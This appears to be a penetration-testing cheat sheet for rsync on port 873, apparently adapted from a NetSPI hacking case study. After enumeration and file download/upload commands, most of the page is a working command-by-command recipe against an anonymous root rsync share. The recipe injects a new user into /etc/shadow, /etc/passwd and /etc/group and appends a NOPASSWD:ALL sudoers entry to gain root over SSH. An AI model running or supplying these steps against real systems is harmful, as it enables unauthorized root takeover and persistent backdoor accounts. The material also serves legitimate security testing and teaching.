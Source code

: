# 873 - RSYNC

example of Rsyncd.conf file that allows anonymous root access to the entire file system:

```
motd file = /etc/Rsyncd.motd
lock file = /var/run/Rsync.lock
log file = /var/log/Rsyncd.log
pid file = /var/run/Rsyncd.pid

[files]
path = /
comment = Remote file share.
uid = 0
gid = 0
read only = no
list = yes
```

## enumeration

```
nmap -p 873 192.168.0.1
```

List directory

```
rsync 192.168.1.171::
```

list directory ipv6&#x20;

```
rsync --list-only -a rsync://[dead:beef::0250:56ff:fe88:e5fa]:8730/var/
```

List sub directory contents

```
rsync 192.168.1.171::files
```

List directories and files recursively

```
rsync -r 192.168.1.171::files/tmp/
```

Download files

```
rsync 192.168.1.171::files/home/test/mypassword.txt .
```

Download folders

```
rsync -r 192.168.1.171::files/home/test/
```

Upload files

```
rsync ./myfile.txt 192.168.1.171::files/home/test
```

Upload folders

```
rsync -r ./myfolder 192.168.1.171::files/home/test
```

### Creating a New User through Rsync

If Rsync is configured to run as root and is anonymously accessible, it’s possible to create a new privileged Linux user by modifying the shadow, passwd, group, and sudoers files directly.

Note: The same general approach can be used for any vulnerability that provides full write access to the OS. A few other examples include NFS exports and uploading web shells running as root.

**Creating the Home Directory**\
Let’s start by creating our new user’s home directory.

```
# Create local work directories
mkdir demo
mkdir backup
cd demo

# Create new user’s home directory
mkdir ./myuser
rsync -r ./myuser 192.168.1.171::files/home
```

**Create the Shadow File Entry**\
The /etc/shadow file is the Linux password file that contains user information such as home directories and encrypted passwords. It is only accessible by root.

To inject a new user entry via Rsync you’ll have to:

1. Generate a password.
2. Create the line to inject.
3. Download /etc/shadow. (and backup)
4. Append the new user to the end of /etc/shadow
5. Upload / Overwrite the existing /etc/shadow

Note: Make sure to create a new user that doesn’t already exist on the system.&#x20;

Create Encrypted Password:

```
openssl passwd -crypt password123
```

Add New User Entry to /etc/shadow:

```
rsync -R 192.168.1.171::files/etc/shadow .
cp ./etc/shadow ../backup
echo "myuser:MjHKz4C0Z0VCI:17861:0:99999:7:::" >> ./etc/shadow
rsync ./etc/shadow 192.168.1.171::files/etc/
```

**Create Passwd File Entry**\
The /etc/passwd file is used to keep track of registered users that have access to the system. It does not contain encrypted password. It can be read by all users.

To inject a new user entry via Rsync you’ll have to:

1. Create the user entry to inject.
2. Download /etc/passwd. (and back it up so you can restore state later)
3. Append the new user entry to the end of passwd.
4. Upload / Overwrite the existing /etc/passwd

Note: Feel free to change to uid, but make sure it matches the value set in the /etc/group file.&#x20;

&#x20;In this case the UID/GUID are 1021.

Add New User Entry to /etc/passwd:

```
rsync -R 192.168.1.171::files/etc/passwd .
cp ./etc/passwd ../backup
echo "myuser:x:1021:1021::/home/myuser:/bin/bash" >> ./etc/passwd
rsync ./etc/passwd 192.168.1.171::files/etc/
```

**Create the Group File Entry**\
The /etc/group file is used to keep track of registered group information on the system. It does not contain encrypted password. It can be read by all users.

To inject a new user entry via Rsync you’ll have to:

1. Create the user entry to inject.
2. Download /etc/group. (and backup, just in case)
3. Append the new user entry to the end of group.
4. Upload / Overwrite the existing /etc/group file.

Note: Feel free to change to uid, but make sure it matches the value set in the /etc/passwd file.&#x20;

&#x20;In this case the UID/GUID are 1021.

Add New User Entry to /etc/group:

```
rsync -R 192.168.1.171::files/etc/group .
cp ./etc/group ../backup
echo "myuser:x:1021:" >> ./etc/group
rsync ./etc/group 192.168.1.171::files/etc/
```

**Create Sudoers File Entry**\
The /etc/sudoers file contains a list of users that are allowed to run commands as root using the sudo command. It can only be read by root. We are going to modify it to allow the new user to execute any command through sudo.

To inject a entry via Rsync you’ll have to:

1. Create the user entry to inject.
2. Download /etc/sudoers. (and backup, just in case)
3. Append the new user entry to the end of sudoers.
4. Upload / Overwrite the existing /etc/sudoers file.

Add New User Entry to /etc/sudoers:

```
rsync -R 192.168.1.171::files/etc/sudoers .
cp ./etc/sudoers ../backup
echo "myuser ALL=(ALL) NOPASSWD:ALL" >> ./etc/sudoers   
rsync ./etc/sudoers 192.168.1.171::files/etc/
```

Now you can simply log into the server via SSH using your newly created user and sudo sh to root!

source:

[https://blog.netspi.com/linux-hacking-case-studies-part-1-rsync/](https://blog.netspi.com/linux-hacking-case-studies-part-1-rsync/)

